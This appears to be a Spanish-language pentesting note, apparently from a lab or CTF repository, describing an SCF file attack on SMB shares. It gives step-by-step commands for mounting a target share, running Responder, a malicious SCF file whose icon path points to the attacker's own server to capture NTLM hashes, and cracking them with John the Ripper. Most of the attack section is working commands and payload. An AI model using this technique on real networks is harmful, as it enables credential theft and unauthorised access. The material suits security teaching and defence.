 Página de ejemplo: https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

SCF (Shell Command File), Archivo de comandos de Windows.
Estos ficheros son utilizados para realizar un limitado conjunto de operaciones en los sistemas Windows. Sin embargo, los ficheros SCF también pueden usarse para acceder a rutas UNC específicas.

UNC (Universal Naming Convention), una ruta UNC puede ser usada en los ficheros SCF para acceder a recursos de red.

Este posible vector permite a un atacante construir un archivo SCF donde se le indique una ruta UNC. Para el ataque, esta ruta deberá estar en una red compartida donde podamos colocar un servidor en espera de peticiones por un recurso compartido. El envenenamiento vendrá del archivo SCF que deberá estar en un recurso compartido, se ejecutará al ser requerido por la máquina objetivo y esto direccionará gracias a la ruta UNC hacia nuestro servidor Responder, el cual captará los hashes NTML utilizados en las comunicaciones por el protocolo SMB.

Por otro lado, tendremos que hacer uso de este servidor, por lo tanto, habrá que levantar un servidor "Responder". 

** Responder **
Responder es una herramienta que actua como envenenador de LLMNR, NBT-NS Y MDMS. 
Principalmente, Responder, es un módulo escrito en python que permite ver las respuestas de los protocolos NBT-NS (NetBios Name Service), BROWSER, LLMNR (link local multicast name resolution), y DNS en la red. 
Además puede mapear dominios MSSQL servers, ver ICMP redirects, etc.
Responder levantará servidores falsos HTTP, FTP, SMB, etc.

Ataque:
>Creamos una montura desde nuestra máquina a los recursos compartidos de la máquina objetivo
>`mount -t cifs "//<obj_ip>/<recurso>" mnt/smbMounted -o vers=2.1`
>Levantamos el servidor Responder
>`python responder.py -I tun0 -r -d -w`
>Creamos un archivo SCF malicioso
>`[Shell]`
>`command=2`
>`IconFile=\\<own_ip>\smbFolder\loquesea`
>Guardamos el fichero SCF en la montura creada --> `mnt/smbMounted/<recurso>`
>Desde la máquina objetivo accedemos al recurso SCF disponible a través de los recursos compartidos. 
>El servidor Responder obtendrá los hashes NTML que serán pasados cuando la máquina objetivo intente acceder al recurso indicado en el fichero SCF, el cual no existe, y por lo tanto actuará el responder ofreciendo tal archivo.
>Una vez obtenido el hash, podemos crackearlo copiándolo en un archivo de nombre hash
>`john --wordlist=rockyou.txt hash`

